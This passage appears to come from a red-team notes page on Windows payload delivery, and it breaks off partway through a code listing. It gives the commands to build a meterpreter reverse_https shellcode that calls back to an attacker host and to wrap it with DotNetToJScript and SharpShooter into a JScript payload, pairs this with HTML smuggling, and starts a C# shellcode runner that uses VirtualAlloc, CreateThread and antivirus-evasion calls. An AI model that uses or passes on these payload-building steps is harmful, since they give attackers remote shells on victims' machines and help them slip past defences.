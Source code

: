 ```csharp
        Process.Start(path);
    }
}
```
{% endcode %}

Compile to Jscript with *DotNetToJScript.exe*:

```
Cmd > .\DotNetToJScript.exe .\ExampleAssembly.dll --lang=Jscript --ver=v4 -o demo.js
```


#### SharpShooter

- [https://github.com/mdsecactivebreach/SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)

```
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 -f raw -o met.bin
$ python SharpShooter.py --dotnetver 4 --stageless --rawscfile met.bin --payload js --output evil
```

{% hint style="info" %}
This tool can efficiently be used with **HTML Smuggling** technique.
{% endhint %}

{% content-ref url="/redteam/se/phishing/html-smuggling.md" %}
[html-smuggling.md](html-smuggling.md)
{% endcontent-ref %}



### C\# DLL with PowerShell Cradle (in Memory)

- [https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html](https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html)
- [https://github.com/smokeme/payloadGenerator](https://github.com/smokeme/payloadGenerator)
- [https://crypt0ace.github.io/posts/WinAPI-and-PInvoke-in-CSharp/](https://crypt0ace.github.io/posts/WinAPI-and-PInvoke-in-CSharp/)

{% code title="ShellcodeRunner.cs" %}
```csharp
using System;
using System.Runtime.InteropServices;

namespace ShellcodeRunner
{
    public class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

        [DllImport("kernel32.dll")]
```